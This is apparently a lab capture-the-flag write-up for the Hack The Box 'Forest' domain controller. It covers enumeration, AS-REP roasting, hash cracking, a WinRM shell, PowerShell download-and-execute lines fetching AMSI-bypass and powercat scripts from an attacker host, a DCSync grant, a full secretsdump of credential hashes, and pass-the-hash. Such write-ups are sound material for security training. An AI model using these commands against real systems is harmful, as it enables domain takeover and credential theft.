

# Introdution

[https://app.hackthebox.com/machines/Forest](https://app.hackthebox.com/machines/Forest)

This is a easy windows machine. It is a domain controller that allows me to enumerate users over RPC, attack Kerberos with AS-REP Roasting, and use Win-RM to get a shell.

**Have a good time!**

## Diagram



**Have a good time!**

# Enumeration

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.161 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.161
```

[](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Forest/scan-forest.png)

 
We identified the `htb.local` domain, so add it in **/etc/hosts**


## DNS - UDP/TCP 53

I can to resolve `htb.local` and `forest.htb.local` from this DNS server:

```bash
dig @10.10.10.161 htb.local
```
    
```
; <<>> DiG 9.18.7-1-Debian <<>> @10.10.10.161 htb.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 52594
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: 8ac7922caa24baa7 (echoed)
;; QUESTION SECTION:
;htb.local.			IN	A

;; ANSWER SECTION:
htb.local.		600	IN	A	10.10.10.161

;; Query time: 200 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Tue Oct 18 08:55:52 EDT 2022
;; MSG SIZE  rcvd: 66
```
    
```bash
dig @10.10.10.161 forest.htb.local
```
    
```
; <<>> DiG 9.18.7-1-Debian <<>> @10.10.10.161 forest.htb.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51580
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: cb921396b8abdfab (echoed)
;; QUESTION SECTION:
;forest.htb.local.		IN	A

;; ANSWER SECTION:
forest.htb.local.	3600	IN	A	10.10.10.161

;; Query time: 264 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Tue Oct 18 08:57:09 EDT 2022
;; MSG SIZE  rcvd: 73
```
    
I tried to do a zone transfer, but **without success**.

```console
dig axfr @10.10.10.161 htb.local`
```
    
```
; <<>> DiG 9.18.7-1-Debian <<>> axfr @10.10.10.161 htb.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```
    

## SMB - TCP 445

I tried to enumerate with `smbmap` and `smbclient` to list shares without password, but **unsuccessful**.


```bash
smbmap -H 10.10.10.161
```
    
```
[+] IP: 10.10.10.161:445	Name: htb.local
```
    
```bash
smbclient -N -L //10.10.10.161
```
    
```
Anonymous login successful

    Sharename       Type      Comment
    ---------       ----      -------
SMB1 disabled -- no workgroup available
```
    

## RPC - TCP 445

Enumerating the RPC

```bash
rpcclient -U "" -N 10.10.10.161
```

List the users:

- `enumdomusers`
    
    ```powershell
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[$331000-VK4ADACQNUCA] rid:[0x463]
    user:[SM_2c8eef0a09b545acb] rid:[0x464]
    user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
    user:[SM_75a538d3025e4db9a] rid:[0x466]
    user:[SM_681f53d4942840e18] rid:[0x467]
    user:[SM_1b41c9286325456bb] rid:[0x468]
    user:[SM_9b69f1b9d2cc45549] rid:[0x469]
    user:[SM_7c96b981967141ebb] rid:[0x46a]
    user:[SM_c75ee099d0a64c91b] rid:[0x46b]
    user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
    user:[HealthMailboxc3d7722] rid:[0x46e]
    user:[HealthMailboxfc9daad] rid:[0x46f]
    user:[HealthMailboxc0a90c9] rid:[0x470]
    user:[HealthMailbox670628e] rid:[0x471]
    user:[HealthMailbox968e74d] rid:[0x472]
    user:[HealthMailbox6ded678] rid:[0x473]
    user:[HealthMailbox83d6781] rid:[0x474]
    user:[HealthMailboxfd87238] rid:[0x475]
    user:[HealthMailboxb01ac64] rid:[0x476]
    user:[HealthMailbox7108a4e] rid:[0x477]
    user:[HealthMailbox0659cc1] rid:[0x478]
    user:[sebastien] rid:[0x479]
    user:[lucinda] rid:[0x47a]
    user:[svc-alfresco] rid:[0x47b]
    user:[andy] rid:[0x47e]
    user:[mark] rid:[0x47f]
    user:[santi] rid:[0x480]
    ```
    

List the groups :

- `enumdomgroups`
    
    ```
    group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
    group:[Domain Admins] rid:[0x200]
    group:[Domain Users] rid:[0x201]
    group:[Domain Guests] rid:[0x202]
    group:[Domain Computers] rid:[0x203]
    group:[Domain Controllers] rid:[0x204]
    group:[Schema Admins] rid:[0x206]
    group:[Enterprise Admins] rid:[0x207]
    group:[Group Policy Creator Owners] rid:[0x208]
    group:[Read-only Domain Controllers] rid:[0x209]
    group:[Cloneable Domain Controllers] rid:[0x20a]
    group:[Protected Users] rid:[0x20d]
    group:[Key Admins] rid:[0x20e]
    group:[Enterprise Key Admins] rid:[0x20f]
    group:[DnsUpdateProxy] rid:[0x44e]
    group:[Organization Management] rid:[0x450]
    group:[Recipient Management] rid:[0x451]
    group:[View-Only Organization Management] rid:[0x452]
    group:[Public Folder Management] rid:[0x453]
    group:[UM Management] rid:[0x454]
    group:[Help Desk] rid:[0x455]
    group:[Records Management] rid:[0x456]
    group:[Discovery Management] rid:[0x457]
    group:[Server Management] rid:[0x458]
    group:[Delegated Setup] rid:[0x459]
    group:[Hygiene Management] rid:[0x45a]
    group:[Compliance Management] rid:[0x45b]
    group:[Security Reader] rid:[0x45c]
    group:[Security Administrator] rid:[0x45d]
    group:[Exchange Servers] rid:[0x45e]
    group:[Exchange Trusted Subsystem] rid:[0x45f]
    group:[Managed Availability Servers] rid:[0x460]
    group:[Exchange Windows Permissions] rid:[0x461]
    group:[ExchangeLegacyInterop] rid:[0x462]
    group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
    group:[Service Accounts] rid:[0x47c]
    group:[Privileged IT Accounts] rid:[0x47d]
    group:[test] rid:[0x13ed]
    ```
    

Let's look at the members of the Domain Admin group:

- `querygroup 0x200`
    
    ```
    Group Name:	Domain Admins
    	Description:	Designated administrators of the domain
    	Group Attribute:7
    	Num Members:1
    ```
    
- `querygroupmem 0x200`
    
    ```
    rid:[0x1f4] attr:[0x7]
    ```
    
- `queryuser 0x1f4`
    
    ```
        User Name   :	Administrator
    	Full Name   :	Administrator
    	Home Drive  :	
    	Dir Drive   :	
    	Profile Path:	
    	Logon Script:	
    	Description :	Built-in account for administering the computer/domain
    	Workstations:	
    	Comment     :	
    	Remote Dial :
    	Logon Time               :	Tue, 18 Oct 2022 08:13:48 EDT
    	Logoff Time              :	Wed, 31 Dec 1969 19:00:00 EST
    	Kickoff Time             :	Wed, 31 Dec 1969 19:00:00 EST
    	Password last set Time   :	Mon, 30 Aug 2021 20:51:59 EDT
    	Password can change Time :	Tue, 31 Aug 2021 20:51:59 EDT
    	Password must change Time:	Wed, 13 Sep 30828 22:48:05 EDT
    	unknown_2[0..31]...
    	user_rid :	0x1f4
    	group_rid:	0x201
    	acb_info :	0x00000010
    	fields_present:	0x00ffffff
    	logon_divs:	168
    	bad_password_count:	0x00000000
    	logon_count:	0x00000061
    	padding1[0..7]...
    	logon_hrs[0..21]...
    ```
    

The `Domain Admin` group has only one member, which is the `Administrator`.


## AS-REP Roasting


Now I have the list of target users.

I'll try the Attack As-Rep Roasting using the users list.

```bash
cat users
```
    
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
```
    
```bash
for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```
    
```
[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:754aaeb7cf647e5365424893ee7e7345$1f45e994ceeda5dba738917f2d1f1103eadc8aab035b7177f5ebcaa4ace7ab4311966d7a2bebe181f5dc0e51fd24286b24cb2493a1f02c6fc5cfbd050627089ea8517c1cd3256b7b94d42acc4e54a98b4e336dc175f356a34394b843e82701e822f748a8599fc6d641a5cfa3ebdaeb5f04ace7a97a31b2993c0628c766fe7f2e7358fbeeee130b7c55579f6bb9006949a9f4db273fd05f845ab359b7799624297b4be55b4eab01a5d350f012fc49829e01db5b64fad03409ab7f34cf8c19f538ea9868751d2dc3739fa0d4b2b0d991b0c145bde8f925bbdbec205fc7a626b0b8

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
    

### Cracking the Hash

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
```

| User         | Pass     |
|:-------------|---------:|
| svc-alfresco | s3rvice  | 


## Getting the Shell

### Psexec

```bash
impacket-psexec htb.local/svc-alfresco:s3rvice@10.10.10.161
```

***Without Success!***

### WinRM

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

***Success!***

### HABEMUSS!!!


# Post Exploration


## Spawning Shell

The impacket-psexec gives me a non-interactive shell. I used powercat.txt to get an interactive shell.

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.2/amsi.txt')
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.2/powercat.txt')
```


## BLOODHOUND

I downloaded and ran SharpHound.exe on the target. Its output transfer to kali and I used BloodHound to do the reading in graphical mode. Both tools were referenced in the chapter “Pentest Tools”.

* Download:

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2//sharphound.exe','c:\\windows\\tasks\\sharphound.exe')
```

* Running SharpHound.exe:

```powershell
C:\Windows\Tasks\SharpHound.exe --CollectionMethods All
```

* Transferring output to kali:

```bash
## Kali:
    impacket-smbserver samba . -username kali -password kalii -smb2support
## Target:
    net use \\192.168.49.106\samba kalii /user:kali
    copy 20221018071247_BloodHound.zip \\10.10.14.2\\samba
```

* Analyzing in BloodHound:

We have the road to success in the section `Find Shortest Paths to Domain Admins`


## Privilege Escalation (svc-alfresco → Administrator )

### Entering the Exchange Windows Permissions Group

Let's to insert the **svc-alfresco** user to **Exchange Windows Permissions:** group.

```powershell
net group "Exchange Windows Permissions" svc-alfresco /add /domain
```

or we can to use this command:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco' -Credential $Cred
```

We verify that the user was insert with success.

```powershell
net group "Exchange Windows Permissions"
```
    
```
Members

-------------------------------------------------------------------------------
svc-alfresco             
The command completed successfully.
```
    

However, after a while the user is deleted from the group.

So we'll do a command just add the user to the group and then grant DCSync privileges.

```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; 
$username = "htb\svc-alfresco"; 
$password = "s3rvice"; 
$secstr = New-Object -TypeName System.Security.SecureString; 
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

We are now in the `Exchange Windows Permissions` group and can run a DCSync attack with `mimikatz` or `secretdump`. We will use the second.

```bash
impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161
```
    
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:17267b380cc15eaeddff28a7b39e888a:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:01ff0802d17a096d1efcaca3775c119ec6d7db7d5720ace3d433cb3b73e2ef0b
FOREST$:aes128-cts-hmac-sha1-96:71e1f1ab91f3cf904d3465057ecd82f6
FOREST$:des-cbc-md5:408c074c800b0d38
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```
    
We capture the hash of **Administrator.**.

We will do a PTH attack with PsExec:

```bash
impacket-psexec administrator@10.10.10.161 -hashes :32693b11e6aa90eb43d32c72a07ceea6
```


**HABEMUS ROOT!!!**


